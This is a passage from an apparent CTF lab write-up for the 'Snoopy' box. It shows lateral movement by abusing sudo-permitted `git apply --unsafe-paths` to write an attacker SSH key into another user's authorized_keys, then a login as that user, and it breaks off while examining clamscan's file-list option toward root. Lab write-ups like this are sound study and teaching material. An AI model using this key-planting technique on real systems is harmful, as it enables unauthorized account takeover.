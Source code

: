 Each of these allowed for an unintended solution, and each was tighted up with regex to block the unintended paths.

### cbrown –> sbrown: –unsafe-paths

The main point of the exploit to showcase is that symbolic links created in the diff are not protected. However, it is possible to not even need that if I can give any parameters to `git apply` as was the case on release.

For example, I’ll create a diff file in `/dev/shm`:

```

cbrown@snoopy:~$ cat /dev/shm/test.diff 
diff --git a/authorized_keys b/authorized_keys
new file mode 100644
index 0000000..ec273c0
--- /dev/null
+++ b/authorized_keys
@@ -0,0 +1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
-- 

```

Now I can use `--unsafe-paths` and `--directory` to apply this diff itno the `.ssh` folder of sbrown:

```

cbrown@snoopy:~$ sudo -u sbrown git apply -v --unsafe-paths --directory "/home/sbrown/.ssh" /dev/shm/test.diff 
Checking patch /home/sbrown/.ssh/authorized_keys...
Applied patch /home/sbrown/.ssh/authorized_keys cleanly.

```

And SSH in as sbrown:

```

oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
sbrown@snoopy:~$ 

```

### sbrown –> root: –file-list / -f

Looking through the `-h` options for `clamscan`, `-f` jumps out as interesting.

```

sbrown@snoopy:~$ clamscan -h

                       Clam AntiVirus: Scanner 1.0.0
           By The ClamAV Team: https://www.clamav.net/about.html#credits
           (C) 2022 Cisco Systems, Inc.

    clamscan [options] [file/directory/-]
...[snip]...
    --file-list=FILE      -f FILE        Scan files from FILE
...[snip]...  

```
